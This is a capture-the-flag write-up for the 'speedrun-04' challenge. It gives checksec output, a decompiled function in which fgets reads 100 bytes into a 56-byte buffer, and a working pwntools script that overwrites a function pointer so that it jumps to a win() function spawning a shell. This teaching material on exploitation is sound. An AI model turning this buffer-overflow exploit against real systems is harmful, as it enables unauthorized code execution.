 
## speedrun-04

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No stack canary, assume BOF, however no need to smash the stack with this one.  No PIE, easy ROP.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_48 [56];
  code *local_10;
  
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```

Basic BOF.  Overrun `local_48` with `0x48 - 0x10` (`56`) bytes of garbage, then the address to `win`.

> Notice the use of `fgets` vs. `gets`.  `fgets` is `gets` with limits, however setting that to `100` for a 56-byte array kinda defeats the purpose.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_04')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30004)

p.sendlineafter('Like some kind of madness, was taking control.\n','foobar')

payload  = b''
payload += 56 * b'A'
payload += p64(binary.sym.win)

p.sendline(payload)
p.interactive()
```
